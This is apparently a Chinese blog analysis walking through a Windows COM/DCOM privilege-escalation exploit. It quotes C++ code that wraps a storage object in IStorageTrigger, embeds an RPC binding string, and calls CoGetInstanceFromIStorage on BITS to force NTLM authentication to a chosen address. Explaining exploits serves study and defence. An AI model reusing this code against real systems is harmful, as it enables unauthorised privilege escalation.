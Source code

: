 接着new一个IStorageTrigger对象，该对象把stg包装了一层，实现了IStorage和IMarshal接口

```c++
IStorageTrigger* t = new IStorageTrigger(stg);
```

重点看`IStorageTrigger::MarshalInterface`，该方法返回序列化后的数据，此处写入RPC绑定字符串，来使COM Service连接我们COM Server

这一串操作是在把ascii字符串转成UTF16并计算转换后长度，我寻思为啥不用`MultiByteToWideChar`

```c++
unsigned short str_bindlen = ((strlen(ipaddr) + port_len + 2) * 2) + 6;
unsigned short total_length = (str_bindlen + sec_len) / 2;
unsigned char sec_offset = str_bindlen / 2;
port_len = port_len * 2;

byte *dataip;
int len = strlen(ipaddr) * 2;
dataip = (byte *)malloc(len);
for (int i = 0; i < len; i++) {
    if (i % 2)
        dataip[i] = *ipaddr++;
    else
        dataip[i] = 0;
}

byte *data_3;
data_3 = (byte *)malloc((port_len));
byte *strport = (byte *)&dcom_port[0];

for (int i = 0; i < (port_len); i++) {
    if (i % 2)
        data_3[i] = *strport++;
    else
        data_3[i] = 0;
}
```

后面就是生成序列化数据，并调用入参IStream的Write方法写入，IStorage序列化细节我就不细究了

回到`triggerDCOM`函数，调用`CoGetInstanceFromIStorage`加载BITS对象，将激活BITS服务器并序列化`IStorageTrigger`对象传递，内部的OXID resolver会连接指定的RPC绑定地址，并进行NTLM认证

```c++
CLSID clsid;
CLSIDFromString(olestr, &clsid);
CLSID tmp;
//IUnknown IID
CLSIDFromString(OLESTR("{00000000-0000-0000-C000-000000000046}"), &tmp);
MULTI_QI qis[1];
qis[0].pIID = &tmp;
qis[0].pItf = NULL;
qis[0].hr = 0;

HRESULT status = CoGetInstanceFromIStorage(NULL, &clsid, NULL, CLSCTX_LOCAL_SERVER, t, 1, qis);
```
